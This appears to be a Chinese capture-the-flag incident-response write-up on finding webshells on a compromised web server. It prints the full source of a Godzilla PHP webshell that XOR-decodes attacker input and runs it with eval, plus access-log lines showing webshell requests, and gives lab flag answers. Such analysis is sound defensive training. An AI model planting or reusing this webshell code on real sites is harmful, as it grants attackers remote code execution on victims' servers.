 # 第一章 应急响应 - webshell 查杀

## 1

> 黑客 webshell 里面的 flag

将网站源码下载到本地进行分析

![img](img/image_20240429-222939.png)

查看相关文件，发现

```php title="/var/www/html/include/gz.php"
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

```plaintext
flag{027ccd04-5065-48b6-a32d-77c704a5e26d}
```

## 2

> 黑客使用的什么工具的 shell github 地址的 md5

/var/www/html/include/gz.php 文件为哥斯拉的 webshell

```plaintext
https://github.com/BeichenDream/Godzilla --> 39392de3218c333f794befef07ac9257
```

```plaintext
flag{39392de3218c333f794befef07ac9257}
```

## 3

> 黑客隐藏 shell 的完整路径的 md5

```plaintext
/var/www/html/include/Db/.Mysqli.php --> aebac0e58cd6c5fad1695ee4d1ac1919
```

```plaintext
flag{aebac0e58cd6c5fad1695ee4d1ac1919}
```

## 4

> 黑客免杀马完整路径 md5

查看 access.log 即可

```shell
(remote) root@ip-10-0-10-2:/var/www/html/include/Db# cat /var/log/apache2/access.log | awk '{print $7}' | uniq
......
/shell.php
/wap/index.php?1=phpinfo();
/wap/template/images/mobile.css
/wap/template/images/time.gif
/wap/template/images/logo.gif
/wap/index.php?1=phpinfo();
/shell.php
/wap/index.php?1=phpinfo();
/shell.php
/wap/top.php?1=phpinfo();
/shell.php
/wap/top.php?fuc=ERsDHgEUC1hI&func2=ser
/wap/top.php?fuc=ERsDHgEUC1hI&func2=sert
/shell.php
```

```plaintext
/var/www/html/wap/top.php --> eeff2eabfd9b7a6d26fc1a53d3f7d1de
```

```plaintext
flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}
```
